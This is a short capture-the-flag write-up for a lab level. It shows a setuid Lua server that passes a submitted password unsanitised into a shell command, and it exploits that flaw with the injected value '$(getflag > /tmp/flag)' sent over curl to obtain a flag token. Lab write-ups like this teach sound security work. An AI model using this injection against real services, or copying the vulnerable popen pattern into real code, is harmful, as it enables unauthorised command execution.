## writeup level11

When logging in as user level11, we can see a `level11.lua` file:
```shell
$ ls -l level11.lua
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
$ cat level11.lua
```
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
This Lua script is a server listening on the port `5151` waiting for request with a variable that contains a value that once hashed will be compared. \
We want to see who launched this:
```shell
$ ps aux | grep lua
flag11  1783  0.0  0.0   3016   980 ?        S    14:00   0:00 lua /home/user/level11/level11.lua
```
So user flag11 launched this. Fortunately, we see it concatenates the value send by the request to a shell command. We can try to do an injection maybe ?
```shell
$ curl localhost:5151?pass='$(getflag > /tmp/flag)'
Password: Erf nope..

$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```